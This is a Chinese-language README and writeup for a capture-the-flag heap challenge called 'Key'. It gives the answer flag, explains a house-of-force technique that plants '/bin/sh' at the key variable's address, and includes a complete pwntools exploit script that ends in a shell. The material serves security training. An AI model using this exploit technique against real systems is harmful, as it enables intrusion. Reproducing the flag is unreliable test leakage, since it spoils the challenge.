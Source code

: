 * 题目名称：Key
* 出题人：Qanux
* 题目类型：Pwn
* 题目难度：中等
* 考点：house of force
* 描述：libc版本为2.27
* flag:XSCTF{h0u4e_0F_F0r4e_1s_v3rY_ea4y}
* other:release文件夹中的文件才是公布出去的题目  
        ctf_xinetd文件夹是打包好的docker环境
* writeup:  
该题为简单的堆利用，用到的技巧为house of force  
有关house of force的原理可以参考：https://bbs.kanxue.com/thread-222924.htm  
这里只讲述几个需要注意的点：  
我们希望把堆块申请到0x601088这个地址，将这个地址加上0x10的大小的堆头和0x8的read函数的读入偏移后通过read函数写入数据的起始地址为
0x6010a0,这正是key变量所在的地址，我们将/bin/sh\x00写入即可getshell  
```python
top_heap = addr + 0xa0
```
top_heap的地址加0xa0是因为题目中free掉的0xa0大小的chunk没有给top chunk所合并，而是进入到tcache中
```python
heap = 0x601088 - top_heap - 0x10
```
这后面-0x10是为了避免堆头部的16字节对偏移的影响  
完整exp:  
```python
from pwn import *

p = remote("",)

context(arch='arm64', os='linux', log_level='debug')

def add(size,context):
    p.recvuntil('> ')
    p.sendline(b'1')
    p.recvuntil('size: ')
    p.sendline(str(size))
    p.recvuntil('data: ')
    p.send(context)

p.recvuntil('gift :D ')
addr = int(p.recvuntil('\n', drop = True),16)
top_heap = addr + 0xa0
success('addr:' + hex(top_heap))
heap = 0x601088 - top_heap - 0x10

add(0x18,b'a'*0x10 + p64(0xffffffffffffffff))
add(heap,b'bbbb')
add(0x10,b'\x00'*8+b'/bin/sh\x00')
p.recvuntil('> ')
p.sendline(b'2')

p.interactive()
```



